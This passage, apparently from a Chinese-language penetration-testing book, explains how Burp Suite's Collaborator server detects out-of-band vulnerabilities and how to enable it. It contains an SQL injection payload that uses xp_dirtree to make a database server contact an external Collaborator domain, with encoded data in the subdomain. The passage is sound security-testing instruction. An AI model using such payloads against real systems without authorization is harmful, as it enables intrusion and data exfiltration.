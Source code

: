 ### 注意

免费版不支持 Collaborator；然而，第六章，*离带外利用*，描述了该过程以及如何构建一个可以用于相同目的的 C2 基础设施。

Collaborator 服务器类似于我们在 第六章，*离带外利用*，中设置的 C2 服务器，但有一些额外的功能。特别是，它与 Burp 的扫描模块集成，能自动检查这些难以发现的漏洞。与更手动的方法相比，它也更不容易出现误报。

Collaborator 设置可以在 **项目选项** 标签下找到，可以禁用或启用以使用默认服务器或私有实例。

高级别上，Collaborator 工作方式如下：

1.  Burp 扫描器生成了一个有效载荷来检测 SQL 注入：

    ```
    ';declare @q varchar(99);set **@q='\\bXkgY3JlZGl0IGNhcmQgbnVtYmVyIGlz.burpcollaborator.net\test'**; exec master.dbo.xp_dirtree **@q**;--
    ```

1.  应用程序异步执行 SQL 查询

1.  SQL 注入成功

1.  SQL 服务器尝试列出随机生成的 `burpcollaborator.net` 域上的 SMB 共享

1.  执行了 DNS 查找：

    +   Collaborator 服务器记录了这个 DNS 请求尝试

1.  成功建立 SMB 连接并返回虚拟数据：

    +   Collaborator 服务器也记录了这个 SMB 连接尝试

1.  Burp 客户端与 Collaborator 服务器进行通信

1.  Collaborator 服务器报告了两个问题：

    +   发出了一个离带外的 DNS 请求

    +   观察到一个离带外的 SMB 服务交互

Collaborator 的优势在于，随机生成的唯一域名实际上可以与扫描器发出的特定请求关联。这能准确地告诉我们哪个 URL 和哪个参数易受 SQL 注入攻击。

## 公共 Collaborator 服务器

默认的 Collaborator 服务器是由 Burp Suite 开发者 PortSwigger 操作的实例。它位于 [burpcollaborator.net](http://burpcollaborator.net)，并且 Burp 中内置了支持。

正如你所预期的那样，默认的 Collaborator 实例可以被所有拥有 Burp 专业版副本的用户访问，资源在所有用户之间共享。从隐私角度看，用户无法看到彼此的 Collaborator 请求。每个有效载荷都是唯一的，由 Burp Suite 为每个请求单独生成。通信是加密的，且需要一个唯一的、每个用户专属的密钥才能从服务器中检索任何数据。

### 注意

Burp Collaborator 采取了几个步骤以确保数据的安全。你可以在 [`portswigger.net/burp/help/collaborator`](https://portswigger.net/burp/help/collaborator) 上阅读更多关于整个过程的内容。

要启用 Collaborator，我们可以进入**项目选项**下的**Misc**标签，选择**使用默认 Collaborator 服务器**单选按钮，如下所示：
